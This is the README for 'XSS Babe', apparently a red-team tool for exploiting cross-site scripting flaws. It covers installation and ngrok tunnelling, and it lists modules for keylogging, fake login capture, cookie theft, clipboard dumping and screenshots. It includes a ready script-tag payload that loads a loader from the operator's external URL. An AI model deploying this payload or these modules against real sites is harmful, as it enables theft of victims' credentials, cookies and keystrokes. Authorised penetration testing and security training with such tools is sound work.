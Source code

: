 # XSS BABE 

XSS Babe is a red team tool for exploiting XSS vulnerabilities in real time. It automates delivery, tracking, and payload interaction through a live command-line interface. Built for ethical hacking, phishing research, and security training.

## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. Do not use it against targets without permission. You are solely responsible for how you use this software.

---

##  File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI
├── server.py                   # Flask server for payload delivery
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # XSS loader script
│   └── modules/
│       ├── keylogger.js
│       ├── fake_login.js
│       ├── clipboard.js
│       ├── auto_cookie_steal.js
│       ├── browser_history.js
│       ├── download_bait.js
│       ├── fingerprint.js
│       ├── screenshot.js
│       ├── recon.js
│       └── cross_tab_spy.js
└── sessions/
    └── [timestamp].txt         # Auto-generated session logs
```

---

##  Installation

**Dependencies (Tested on Kali Linux):**

```bash
sudo apt update
sudo apt install python3 python3-pip unzip -y
pip3 install -r requirements.txt
```

**Install Ngrok:**

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

##  Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Get your auth token: https://dashboard.ngrok.com/get-started/setup  
3. Add token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

##  Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `sessions/`

---

##  Example Payload

Use the Ngrok URL + this payload:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

##  Modules List

| Module            | Description                                      |
|-------------------|--------------------------------------------------|
| keylogger         | Records keystrokes in real time                  |
| fake_login        | Displays fake login form for credential capture  |
| clipboard         | Dumps contents of the victim’s clipboard         |
| auto_cookie_steal | Extracts document cookies silently               |
| browser_history   | Reads browser history if accessible              |
| download_bait     | Triggers fake file downloads (ZIP/PDF/etc)       |
| fingerprint       | Collects user-agent, screen size, timezone       |
| screenshot        | Captures visual screenshot using HTML2Canvas     |
| recon             | Loads iframe ports and resources for open recon  |
| cross_tab_spy     | Detects and tracks multiple open tabs            |

---

##  Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
sessions/YYYY-MM-DD-HHMMSS.txt
```

---

##  Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Author

Developed by [ekomsSavior](https://github.com/ekomsSavior)
